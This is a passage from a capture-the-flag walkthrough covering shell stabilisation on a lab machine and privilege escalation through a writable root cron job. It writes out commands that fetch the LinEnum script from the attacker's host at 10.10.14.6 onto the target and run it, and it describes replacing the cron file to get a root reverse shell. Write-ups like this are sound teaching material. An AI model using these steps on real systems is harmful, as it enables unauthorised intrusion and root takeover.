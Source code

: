 ```text
stty raw -echo
```

Once that is done, run the command “fg” to bring netcat back to the foreground.

Grab the user flag.

![](https://miro.medium.com/max/586/1*OprXSZljihjVu0LhZ_w28g.png)

We need to escalate privileges.

## Privilege Escalation <a id="8d94"></a>

Let’s transfer the LinEnum script from our attack machine to the target machine.

In the attack machine, start up a server in the same directory that the script resides in.

```text
python -m SimpleHTTPServer 5555
```

In the target machine, change to the /tmp directory where we have write privileges and download the LinEnum script.

```text
cd /tmp
wget http://10.10.14.6:5555/LinEnum.sh
```

Give it execute privileges.

```text
chmod +x LinEnum.sh
```

Run the script.

```text
./LinEnum.sh
```

Considering the name of the box, I’m going to focus on Crontab.

![](https://miro.medium.com/max/786/1*uEslRn_pcSHggI4NNStLag.png)

If you’re not familiar with the crontab format, here’s a quick explanation taken from this [page](https://tigr.net/3203/2014/09/13/getting-wordpress-cron-work-in-multisite-environment/).

![](https://miro.medium.com/max/525/1*sLOOxtqyH97Denfq7bWBzA.png)

We’re currently running as www-data and that user usually has full privileges on the content of the directory /var/www. Let’s confirm that.

![](https://miro.medium.com/max/630/1*aDpYm00dnTE_VuqFN_b_jQ.png)

If you’re not familiar with unix permissions, here’s a great explanation.

As we suspected, we own the file. Why is that good news for us? We own a file \(with rwx permissions\) that is running as a cron job with root privileges every minute of every hour of every month of every day of the week \(that’s what the \*\*\*\*\* means\). If we change the content of the file to send a shell back to our attack machine, the code will execute with root privileges and send us a privileged shell.

